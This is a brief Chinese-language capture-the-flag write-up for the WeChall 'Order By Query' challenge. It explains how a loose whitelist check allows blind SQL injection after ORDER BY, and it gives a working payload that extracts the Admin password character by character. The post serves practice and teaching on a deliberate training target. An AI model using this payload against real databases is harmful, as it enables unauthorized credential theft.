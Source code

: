 ```yaml
---
title: Order By Query
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/06/16/order-by-query
  - /writeup/2014/06/16/order-by-query/
tags:
  - sql
  - wechall
---
```

[http://www.wechall.net/challenge/order\_by\_query/index.php][1]  
用户输入在`order by`后面出现，只能用盲注  
另外由于会检查参数`by`是否在白名单里，但用的是`==`，所以只要第一个字符是有效的数字即可

用二分法读内容  
<pre>
by=1,(case when (ascii(substring((select password from users where username=0x41646d696e),1,1))=51) then 3 else 1*(select apples from users)end)
</pre>

 [1]: http://www.wechall.net/challenge/order_by_query/index.php
